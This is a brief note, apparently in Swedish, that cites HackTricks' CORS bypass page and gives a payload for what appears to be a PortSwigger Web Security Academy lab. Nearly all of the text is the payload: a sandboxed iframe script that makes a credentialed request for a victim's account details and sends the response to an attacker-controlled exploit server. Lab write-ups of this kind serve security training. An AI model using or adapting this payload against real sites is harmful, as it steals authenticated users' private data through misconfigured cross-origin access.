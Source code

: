 se [hacktricks](https://book.hacktricks.xyz/pentesting-web/cors-bypass)för payload

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0adf005503942a2a81cc70e600c70081.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	function reqListener() {
	  location='https://exploit-0a3000bf032a2a7b81856f7801dc00e1.exploit-server.net/exploit?key='+encodeURIComponent(this.responseText);
	};
  </script>"></iframe>
  ```
  